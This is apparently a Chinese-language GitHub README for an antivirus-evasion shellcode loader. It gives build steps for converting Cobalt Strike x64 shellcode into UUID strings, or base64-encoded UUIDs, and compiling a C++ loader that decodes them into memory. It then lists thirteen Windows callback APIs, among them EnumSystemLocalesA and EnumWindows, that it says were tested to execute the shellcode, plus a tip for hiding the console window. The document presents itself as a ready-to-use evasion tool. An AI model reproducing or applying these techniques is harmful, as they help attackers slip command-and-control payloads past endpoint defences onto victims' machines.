




# 免杀方式：回调函数


## 编译环境：

VS2022、Windows SDK 10.0、C++14


## 上手指南

 使用Cobalt Strike生成X64位的shellcode



###  版本0.1

将shellcode替换至./v0.1/trans.py中的buf变量，并执行该脚本。(shellcode -> uuid)

```bash
python3 ./v0.1/trans.py
```



将转换好的uuid，替换至./v0.1/main.cpp中的uuids字符串数组中

编译运行即可。


### 版本0.2

将shellcode替换至./v0.2/trans.py中的buf变量，并执行该脚本。(shellcode -> uuid -> base64)

```bash
python3 ./v0.2/trans.py
```



将转换好的uuid，替换至./v0.2/main.cpp中的uuids_base64数组中

编译运行即可。


## 解决出现黑框情况

[VS中运行去除黑框](https://github.com/midisec/BypassAnti-Virus/blob/main/common/VS%E4%B8%AD%E8%BF%90%E8%A1%8C%E5%8E%BB%E9%99%A4%E9%BB%91%E6%A1%86.md)


## 原理分析

什么是UUID？  通用唯一标识符 ( Universally Unique Identifier )， 我们可以利用该机制将shellcode转化成uuid，并在运行程序时，将uuid重新转化成uuid，加载至内存。

什么是回调函数？  回调函数（callback）是一个通过函数指针来调用的函数。

如何利用回调函数？  在windows系统中，有许多库函数需要传递一个回调函数，因此我们可以通过该机制，将恶意的shellcode加载至内存。



WINDOWS库中，可利用的回调函数，经过测试，以下均可以成功执行回调函数加载shellcode。

```c++
EnumSystemLocalesA((LOCALE_ENUMPROCA)ha, 0);
EnumTimeFormatsA((TIMEFMT_ENUMPROCA)ha, 0, 0);
EnumWindows((WNDENUMPROC)ha, 0);
EnumDesktopWindows(NULL,(WNDENUMPROC)ha, 0);
EnumThreadWindows(0, (WNDENUMPROC)ha, 0);
EnumSystemGeoID(0, 0, (GEO_ENUMPROC)ha);
EnumSystemLanguageGroupsA((LANGUAGEGROUP_ENUMPROCA)ha, 0, 0);
EnumUILanguagesA((UILANGUAGE_ENUMPROCA)ha, 0, 0);
EnumSystemCodePagesA((CODEPAGE_ENUMPROCA)ha, 0);
EnumDesktopsW(NULL,(DESKTOPENUMPROCW)ha, NULL);
EnumSystemCodePagesW((CODEPAGE_ENUMPROCW)ha, 0);
EnumDateFormatsA((DATEFMT_ENUMPROCA)ha, 0, 0);
EnumChildWindows(NULL, (WNDENUMPROC)ha, 0);
```


## 参考

https://my.oschina.net/u/4079523/blog/5011399

https://cloud.tencent.com/developer/article/1819583

https://mp.weixin.qq.com/s/3Hit7a3hQ97XDHaMSZQ8cQ

https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-enumthreadwindows